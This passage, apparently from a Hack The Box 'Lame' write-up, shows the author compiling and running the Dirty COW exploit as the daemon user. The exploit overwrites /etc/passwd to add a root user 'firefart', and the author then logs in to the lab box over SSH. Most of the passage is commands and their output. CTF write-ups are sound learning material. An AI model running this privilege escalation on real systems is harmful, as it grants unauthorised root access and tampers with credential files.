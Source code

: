 Now all that had to be done for this was to compile and run the exploit. By default, it adds a new root user called firefart onto the machine with whatever password we specify:

daemon@lame:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
dirty.c:193:2: warning: no newline at end of file
daemon@lame:/tmp$ ls
ls
5564.jsvc\_up            distcc\_dc231671.stderr  distccd\_dc501671.i  vmware-root
dirty                   distcc\_f67e1788.stdout  distccd\_f6241788.i
dirty.c                 distcc\_f7bc1788.stderr  distccd\_f63f1788.o
distcc\_dc0c1671.stdout  distccd\_dc451671.o      vgauthsvclog.txt.0
daemon@lame:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: dirty

Complete line:
firefart:fikSSi4oFnS9Y:0:0:pwned:/root:/bin/bash

mmap: b7f3a000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'dirty'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'dirty'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

To verify it worked, you can check /etc/passwd to see if the new user is there:

daemon@lame:/tmp$ cat /etc/passwd
cat /etc/passwd
firefart:fikSSi4oFnS9Y:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...trimmed...

I tried to `su` to this new user but for some reason it wasn’t working. I tried to figure it out for a little bit, but since SSH was enabled on the box I just decided to do that instead:

~/Documents/htb/lame » ssh firefart@10.10.10.3
The authenticity of host '10.10.10.3 (10.10.10.3)' can't be established.
RSA key fingerprint is SHA256:BQHm5EoHX9GCiOLuVscegPXLQOsuPs+E9d/rrJB84rk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/\[fingerprint\])? yes
Warning: Permanently added '10.10.10.3' (RSA) to the list of known hosts.
firefart@10.10.10.3's password: 
Last login: Wed Jan 12 12:18:29 2022 from :0.0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
